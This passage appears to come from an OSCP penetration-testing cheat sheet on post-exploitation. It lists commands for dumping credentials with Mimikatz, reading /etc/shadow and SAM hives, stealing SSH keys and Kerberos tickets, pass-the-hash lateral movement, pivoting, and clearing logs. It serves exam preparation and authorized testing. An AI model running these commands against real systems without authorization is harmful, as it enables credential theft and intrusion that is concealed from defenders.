 ### Post-Exploitation
After obtaining root or administrator on a machine, focus on **maintaining access, extracting further credentials, and pivoting** to other targets. Key tasks and tools:

- **Password/Credential Dumping** – On Windows, use **Mimikatz** to dump credentials from LSASS. For example, run `Invoke-Mimikatz` in PowerShell or execute mimikatz.exe (be mindful of AV). Dump hashes: `mimikatz # sekurlsa::logonpasswords` (to get plaintext creds or NTLM hashes of logged-on users) or `sekurlsa::msv` for NTLM hashes, `kerberos::list /export` to extract Kerberos tickets. If Domain Admin tokens are present, you can grab them now. On Linux, gather hashes from `/etc/shadow` (if you have root, use `unshadow` and John or Hashcat to crack important user passwords). Also, dump SSH keys from users' `~/.ssh/` if present. 
- **Lateral Movement** – Use the current machine as a pivot to reach others in the network:
  - **Port Forwarding**: If new ports opened internally (e.g., a database only accessible from this host), port-forward with SSH (`ssh -L 3306:internal-db:3306 user@pivot_host`) or use tools like **Chisel** or **SSHuttle** for a broader pivot. 
  - **Pass-the-Hash / Pass-the-Ticket**: If you obtained NTLM hashes of accounts that have access to other machines, use them directly. E.g., with `psexec.py` or `wmiexec.py` from Impacket to get a shell on another host using hash (Pass-the-Hash) ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=match%20at%20L39565%20In%20this,wmiexec)). For Kerberos tickets, use Mimikatz to inject a stolen ticket (`kerberos::ptt <ticket.kirbi>`) to impersonate that user on other machines (Pass-the-Ticket).
  - **Pivoting with ProxyChains**: Add pivot machine’s SSH as a dynamic SOCKS proxy (`ssh -D 1080 user@pivot`) and use proxychains to run tools (like proxychains nmap, proxychains smbclient) against the next network.
  - **Native Windows LM**: Use WinRM or WMI for lateral movement. For example, `evil-winrm` on another host if you have creds, or PowerShell Remoting (`Enter-PSSession -Computer <target> -Credential <user>` if enabled). WMI example: `wmic /user:<DOMAIN\user> /password:<PASS> /node:<TARGET> process call create "cmd.exe /c <command>"` to execute remotely.
  - **PsExec**: If you have admin creds or hash for a target and SMB is open, use `psexec.py <domain>/<user>:<pass>@<target>` (Impacket) to get a SYSTEM shell on that target ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=match%20at%20L39565%20In%20this,wmiexec)).
- **Data Gathering** – Now that you’re admin, search for any remaining sensitive data or keys:
  - **Registry**: On Windows, check for interesting registry hives (SAM, SECURITY) or cached credentials (`reg save HKLM\SAM` etc. and use secretsdump).
  - **Files**: Look for files named "passwords.txt", config files, or KeePass databases, etc. Use `grep -Ri "password" /` on Linux or `findstr /si password C:\*` on Windows.
  - **Screenshots/Logging**: If needed, you can take screenshots (on Windows via `schtasks` to run a tool, or on Linux if X11, use `import -window root screenshot.png`).
- **Privilege Persistence** – In a real engagement, you’d create persistence (adding user accounts, scheduled tasks, etc.), but in OSCP exam, persistence is not required (and adding new users may violate exam rules). Instead, maintain a session (don’t accidentally lock yourself out). If you have to reboot a target (rarely needed), ensure you can regain access (e.g., service backdoor or known credentials).
- **Cleaning Up** – Not strictly needed for the exam environment, but good practice: remove any files you uploaded (scripts, exploits), remove any users or creds you created, and clear command history (`history -c` on Linux, or removing event logs on Windows if you did heavy stuff).
- **Note Taking** – Throughout exploitation and post-exploitation, keep detailed notes of commands run and outcomes (this will make report writing easier and ensure you don’t forget steps needed to replicate the hack).

### Active Directory (AD) – Cheat Sheet Basics 
*When facing an AD environment (multiple Windows machines in a domain), use specialized enumeration and attack techniques:*
